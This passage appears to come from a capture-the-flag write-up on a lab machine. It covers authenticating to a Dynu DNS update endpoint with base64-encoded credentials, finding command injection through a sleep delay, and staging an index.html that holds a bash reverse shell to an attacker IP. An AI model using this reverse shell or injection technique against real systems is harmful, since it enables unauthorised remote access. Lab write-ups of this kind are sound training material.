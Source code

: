 The website seems to contain an endoint for [dynu dns](https://www.dynu.com/DynamicDNS/IP-Update-Protocol). Following the documentation we use the earlier found credentials as base64 and add it as header in burp.

```js
$ echo -n dynadns:sndanyd | base64
ZHluYWRuczpzbmRhbnlk
```

With this we get a different status message, indicating all is working well.

[![auth_working](/img/dynstr/auth_working.png)](/img/dynstr/auth_working.png)

Playing around with the request in burp and testing for command injection we get a noticeable timedelay injecting sleep.

[![rce_poc](/img/dynstr/rce_poc.png)](/img/dynstr/rce_poc.png)

To get a shell we will eliminate bad chars as much as possible. First we will create an index.html file with a reverse shell.

`index.html`
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.14/7575 0>&1'
```
